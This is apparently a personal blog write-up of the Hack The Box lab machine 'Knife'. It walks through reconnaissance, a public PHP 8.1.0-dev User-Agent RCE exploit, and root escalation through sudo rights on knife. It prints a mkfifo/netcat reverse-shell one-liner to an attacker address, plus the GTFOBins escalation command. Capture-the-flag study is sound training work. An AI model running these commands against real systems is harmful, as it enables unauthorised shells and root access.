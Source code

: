 ```yaml
---
title: Hack The Box - Knife
date: 2021-08-28 16:19 +0300
categories: [Hack The Box]
<! -- tags: [linux, gtfobins, cve]     # TAG names should always be lowercase -->
---
```

<img src="/assets/img/knife_img/Knife_card.png">

# Welcome

Hey there! Glad to see you.
Today we have an easy hackthebox machine "Knife".

# Nmap

Start scanning!

<pre class="highlighter-rouge highlight">
nmap -sC -sV -p22,80 -oN recon.txt 10.10.10.242

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>

There are 2 open ports. Let's go to see what we have on web page.

# Web Page

Usual web page where I could find nothing.
<img src="/assets/img/knife_img/Web_page.png">
But if you check website with <code class="language-plaintext highlighter-rouge">Whatweb</code>.
<pre>
whatweb 10.10.10.142

http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
</pre>
After googling you can find <a href="https://www.exploit-db.com/exploits/49933">PHP 8.1.0-dev - 'User-Agent' Remote Code Execution</a>

# User flag

Download the script, execute and get the shell
<pre>
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ pwd
/

$ whoami
james

$ cat /home/james/user.txt
1c9b***************bc8675228e267c
</pre>

# Root flag
Let's see what user **james** can do
<pre>
$ sudo -l
Matching Defaults entries for james on knife:
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
   (root) NOPASSWD: /usr/bin/knife
</pre>

Go to <a href="https://gtfobins.github.io/gtfobins/knife/">GTFOBins</a> and become root.
Of course, if you try without extra shell, you'll get
<pre>
$ sudo knife exec -E 'exec "/bin/sh"'
No input file specified.
</pre>

So create extra shell
<pre>
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP 1234 >/tmp/f
</pre>

And get root flag
<pre>
nc -nvlp 1234

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
sudo knife exec -E 'exec "/bin/sh"'
# whoami
whoami
root
# cat /root/root.txt
cat /root/root.txt
0a92a390**************56e12f73
</pre>

# Userful for me references
<div><a href="https://www.exploit-db.com/exploits/49933">PHP 8.1.0-dev - 'User-Agent' Remote Code Execution</a></div>
<div><a href="http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Reverse Shells</a></div>
<div><a href="https://gtfobins.github.io/gtfobins/knife/">GTFOBins knife</a></div>

